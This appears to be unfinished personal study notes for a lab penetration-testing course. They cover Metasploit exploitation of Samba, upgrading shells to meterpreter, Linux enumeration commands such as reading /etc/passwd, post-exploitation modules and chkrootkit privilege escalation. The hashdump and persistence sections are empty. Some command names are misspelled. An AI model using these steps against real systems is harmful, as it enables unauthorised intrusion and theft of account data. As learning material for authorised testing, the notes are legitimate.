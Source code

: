 
![[Pasted image 20230830164328.png]] 

##### Upgrade shell session to meterpreter session 
1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability: 
		 - `search samba`  -->  `use exploit/Linux/samba/is_known_pipename `
		 - `pwd` 
		 - `put session in the background` 
6) upgrade shell session to meterpreter session: `sessions -u 1` 
7) sessions 2 (this is now your meterpreter session )
 `

##### Enumerate the system: 
1)  `/bin/bash -i

- `cat /etc/passwd`:
    - Gather information about user accounts, helping to identify potential targets or user management weaknesses.
- `groups root`:
    - Determine the groups to which the "root" user belongs, revealing privileges and access levels for understanding vulnerabilities.
- `cat /etc/*issue*`:
    - Identify the OS and version, aiding in selecting specific exploits or attack vectors tailored to the detected OS.
- `ip a s`:
    - Understand network interfaces and configurations, identifying entry points or routes for attacks and subnet information for network pivoting.
- `netstat -antp`:
    - View active network connections and associated processes, detecting suspicious or unauthorized connections indicating security issues.
- `ps aux`:
    - See active processes, potentially identifying vulnerabilities or unauthorized processes for exploitation or lateral movement.
- `env`:
    - Display environment variables, helping to understand session configurations, privileges, and identifying sensitive information affecting application behavior. Useful for identifying potential attack surfaces.


##### post exploitation modules 
- Enumerate configuration files on linux system: 
	- `search enum_configs` 
		- `use post/linux/gather/enum_configs` 
		- set session to meterpreter session on target 
		- `loot` 
		- `cat [path] ` (identify the shells that are on the system)

- gather environment settings 
	- `use post/multi/gather/env` 
	- `session` (set session to meterpreter session)
	- `run` 

- gather network information 
	- `use post/linux/gather/enum_network` 
	- `session` (set session to meterpreter session)
	- `run` 
	- `loot` (get al the information)
		- enumerate  information:  copy file path and: `cath path` `

- check protection systems on linux system (security features) 
	- `use post/linux/gather/enum_protection` 
		- set session to meterpreter session 
	- notes: here will al important notes are stored 

- system enumeration 
	- `use post/linux/gather/enum_system`
	- see installed packages: `loot` -> `cat [path]`


- check if target is a vm or container 
	- `search checkcointainer `
		- `use post/linux/gather/checkcontainer`  (if you are in a container- you need container-breakout to get access to host system that is hosting the container)
	- `search checkvm` 
		- `use post/linux/gather/checkvm` 

- enumerate users history
	- `search enum_users_history` 
		- `use post/linux/gather/enum_users_history`  (stores logs of commands)
		- `loot`  -> `cat` content file 

- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections
- post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history
- post/multi/manage/system_session
- post/linux/manage/download_exec
  
  
### Linux Privilege escalation - Exploiting A vulnerable program 

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability:  
	1) `search ssh_login`
	2) `use auxiliary/scanner/ssh/ssh_login `
	3) use ssh credentials 
	4) /bin/bash -i 
6) upgrade session 1 (shel) to meterpreter session: `sessions -u 1` 
7) open shell session on meterpreter 
8) user enumeration: `cat /etc/passwd `
9) find a vulnerable process so we can elevate our privileges: `ps aux` 
10) look at the root user: to find out more about binary/script: `cat [command]`
![[Pasted image 20230830210745.png]]
11) check version of chrootkit: `chrootkit -V `
go into meterpreter and exploit chrootkit (exploit/unix/local/chrootkit) 

![[Pasted image 20230830215050.png]]






























### Dumping Hashes with Hashdump 




























### Establishing persistence on Linux 


	

